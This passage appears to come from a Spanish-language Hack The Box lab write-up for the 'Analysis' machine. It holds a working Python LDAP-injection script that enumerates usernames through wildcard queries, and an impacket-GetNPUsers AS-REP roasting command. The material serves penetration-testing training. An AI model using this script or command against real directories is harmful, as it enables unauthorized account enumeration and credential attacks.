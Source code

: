 ```python

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    for first_character in characters:
        for second_character in characters:
            p1.status(main_url + f"{first_character}{second_character}*")
            r = requests.get(main_url + f"{first_character}{second_character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if "CONTACT_" not in username:
                print(colored(f"[+] Valid user: {colored(username, 'blue')}", 'yellow'))

if __name__ == '__main__':
    ldapInjection()
```

Probaremos de ejeuctar el script realizado y comprobamos que nos ha enumerado los siguientes usuarios.

```bash
python3 ldap_injection.py
```

<figure><img src="../../../.gitbook/assets/1631_vmware_751sZy9ubU.png" alt="" width="500"><figcaption></figcaption></figure>

Estos usuarios los añadiremos a la lista de usuarios que ya disponemos, y como hay usuarios nuevos, intentaremos nuevamente de realizar un **AS-REP Roasting Attack**, sin éxito tampoco.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```
